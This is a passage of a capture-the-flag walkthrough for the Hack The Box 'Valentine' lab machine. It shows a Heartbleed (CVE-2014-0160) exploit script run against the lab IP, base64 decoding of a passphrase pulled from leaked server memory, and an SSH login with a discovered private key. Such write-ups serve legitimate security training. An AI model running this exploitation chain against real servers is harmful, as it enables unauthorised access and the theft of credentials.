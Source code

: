 # Hearthbleed Exploit

# [CVE-2014-0160](https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py)

See the enumeration page.

```bash
──(kali㉿kali)-[10.10.14.8/23]-[~/htb/valentine/exploit]
└─$ python2 heartbleed.py 10.10.10.79 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==0.-fQ........v9r1o5
```


# Let's decode the text
```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/valentine/exploit]
└─$ echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```

The decoded text looks familiar, it is actually the *hype* that's familiar which is from http://10.10.10.79/dev/hype_key


# SSH

 We have the following information

* an rsa key
* a likely password

we can try bruteforcing ssh usernames but the file name itself reveals a lot, hype could be the username

```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/valentine/server]
└─$ ssh -l hype  -i hype_key  10.10.10.79
Enter passphrase for key 'hype_key': heartbleedbelievethehype
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ 
```

 Our assumptions turn out to be correct, username is **hype** and the passphrase of the key is **heartbleedbelievethehype**